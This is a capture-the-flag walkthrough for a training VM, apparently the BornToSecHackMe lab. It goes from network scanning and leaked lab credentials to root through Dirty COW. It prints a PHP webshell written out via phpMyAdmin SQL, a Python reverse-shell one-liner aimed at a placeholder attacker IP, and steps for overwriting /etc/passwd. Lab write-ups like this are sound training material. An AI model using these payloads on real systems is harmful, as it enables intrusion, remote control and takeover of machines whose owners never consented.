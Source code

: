 # Privilege Escalation Using Dirty COW Exploit

1. Start the Machine

	Once the machine is powered on (or started from a hypervisor), wait for the boot process to reach the GRUB menu prompt.

2. Network Reconnaissance

	Using **netdiscover**, the internal network was scanned to find live hosts and services:

	```bash
	sudo netdiscover -r <your-ip/mask>
	```

	Output:

	```
	Currently scanning: Finished!   |   Screen View: Unique Hosts

	5 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 210
	_____________________________________________________________________________
	IP            At MAC Address     Count     Len  MAC Vendor / Hostname
	-----------------------------------------------------------------------------
	<vm-ip> 08:00:27:2e:4e:0b      2      84  PCS Systemtechnik GmbH
	```

3. Using **nmap**, the internal network was scanned to find live hosts and services:

	```bash
	nmap -p- -sV 192.168.190.182
	```

	Result: Host with several open services:

	* FTP (vsftpd 2.0.8+)
	* SSH (OpenSSH 5.9p1)
	* HTTP/HTTPS (Apache 2.2.22)
	* IMAP and SSL/IMAP (Dovecot)

4. Web Enumeration and Initial Access

	Use **ffuf** to fuzz directories on the webserver:

	```bash
	ffuf -u https://<vm-ip>/FUZZ -w /usr/share/wordlists/dirb/common.txt
	```

	Result:

	* `/forum` (redirects with 301)
	* `/phpmyadmin` (redirects with 301)
	* `/webmail` (redirects with 301)

5. Forum Login and Credentials Leak

	Navigate to the vulnerable web application at:

	```
	https://<vm-ip>/forum
	```

	You can find a post titled **"Probleme login ?"** by the user **lmezard**, dated *2015-10-08 00:10*.

	Inside the forum post (or associated logs), notice a suspicious log line:

	```
	Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
	```

	This is an SSH authentication failure showing an attempted login with a password.
	Using the forum's user interface, we can find the **Users** button at the top right corner of the forum page. On the Users page, several users are listed. The password from the log matches the user **lmezard**.

	In the profile or edit profile page of the user **lmezard**, we can find the registered email address:

	```
	laurie@borntosec.net
	```

6. Accessing Webmail and Database Credentials

	Logged into **webmail** with lmezard's credentials and the same password as the forum password.

	In the email titled "DB Access" we see:

	```
	Use root/Fg-'kKXBj87E:aJ$ to access databases.
	```

	We can use these credentials to login to **phpMyAdmin** at `/phpmyadmin`.

7. SQL Injection and Remote Code Execution

	In phpMyAdmin's SQL tab, we can execute:

	```sql
	SELECT "<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>" 
	INTO OUTFILE '/var/www/forum/templates_c/payload.php';
	```

	Verify webshell access:

	```
	https://192.168.190.182/forum/templates_c/payload.php?cmd=whoami
	```

	Confirm it outputs `www-data`.

8. Getting Reverse Shell

	Checked for Python binary:

	```
	https://192.168.190.182/forum/templates_c/payload.php?cmd=which%20python
	```

	Got `/usr/bin/python`. Now we can give a reverse shell payload:

	```bash
	python -c "import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<attacker-ip>',<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/bash')"
	```

	> Replace `<attacker-ip>` and `<port>`

	Encode the payload for URL and run it via the webshell. Listen on port 1234 with `nc -lvnp 1234` and get a reverse shell as `www-data`.
	To access the reverse shell, use `nc`:

	```bash
	nc -lvnp <port>
	```

9. Local Enumeration

	Inside the shell:

	```bash
	cd /home
	ls -l
	```

	Output:

	```bash
	total 0
	drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
	drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
	drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
	drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
	dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
	drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
	drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
	```

10. Privilege Escalation: lmezard user

	Navigate to `/home/LOOKATME` and find a `password` file:

	```
	lmezard:G!@M6f4Eatau{sF"
	```

	Switch user to lmezard:

	```bash
	su lmezard
	Password: G!@M6f4Eatau{sF"
	```

	Successfully logged in as lmezard.

11. Dirty COW Exploit to Root

	Upload and compile **dirty\_cow\.c** exploit in `/tmp` as lmezard.

	```bash
	cat > dirty_cow.c << EOF
	```

	Then paste the code.

	Compile and run:

	```bash
	gcc -pthread dirty_cow.c -o dirty -lcrypt
	./dirty <new-root-password>
	```

	The exploit patches `/etc/passwd` to set root password to `<new-root-password>`. Example:

	```
	toor:tojiVEjmA3vTY:0:0:pwned:/root:/bin/bash
	```

12. Final Root Access

	Use `su toor` with the new password set by the exploit and gain root shell.

	| User        | Password                    |
	| ----------- | --------------------------- |
	| lmezard     | G!@M6f4Eatau{sF"            |
	| root (toor) | (new password from exploit) |
